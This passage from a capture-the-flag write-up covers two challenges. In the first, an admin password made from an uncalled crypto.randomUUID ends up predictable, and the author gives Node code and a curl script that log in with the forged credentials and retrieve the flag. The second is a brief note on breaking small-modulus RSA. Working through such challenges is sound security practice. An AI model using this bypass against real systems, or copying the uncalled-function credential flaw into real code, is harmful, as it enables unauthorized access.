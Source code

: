 ```js
////////
db.exec(`INSERT INTO users (username, password) VALUES (
    '${btoa('admin')}',
    '${btoa(crypto.randomUUID)}'
)`);
```

This section of code immediately jumped out to me because I noticed that
`crypto.randomUUID` wasn't actually being called.

Because the 'random uuid' is being fed into `btoa()` it becomes a base64
encoded string. However, `btoa()` also expects a string as input. Because every
object in JS has a `.toString()` method, when you pass it into a function
expecting another type, JS will happily convert it for you without warning.

This means that the admin's password will always be a base64-encoded version of
`crypto.randomUUID`'s source code. We can get that base64-encoded source code
by running the following in a NodeJS REPL:

```js
// import file system and crypto modules
var writeFileSync = require('fs').writeFileSync;
var crypto = require('crypto');

// write source to file
writeFileSync('./randomUUID.js', btoa(crypto.randomUUID.toString()), 'utf-8');
```

I made a simple shell script that calls cURL with the base64-encoded
parameters, and decodes the url-encoded flag afterwards:

```sh
#!/bin/sh

# https://stackoverflow.com/questions/6250698/how-to-decode-url-encoded-string-in-shell
function urldecode() { : "${*//+/ }"; echo -e "${_//%/\\x}"; }

urldecode $(curl -sX POST \
	-d "username=$(printf 'admin' | base64)" \
	-d "password=$(cat ./randomUUID.js)" \
	https://secure.mc.ax/login)
```

### crypto/baby

> I want to do an RSA!

This challenge is breaking RSA. It only works because the `n` parameter is
really small.

Googling for 'rsa decrypt n e c' yields
[this](https://stackoverflow.com/questions/49878381/rsa-decryption-using-only-n-e-and-c)
stackoverflow result, which links to
[dcode.fr](https://www.dcode.fr/rsa-cipher). The only thing left to do is
calculate `p` and `q`, which can be done using [wolfram
alpha](https://wolframalpha.com/).
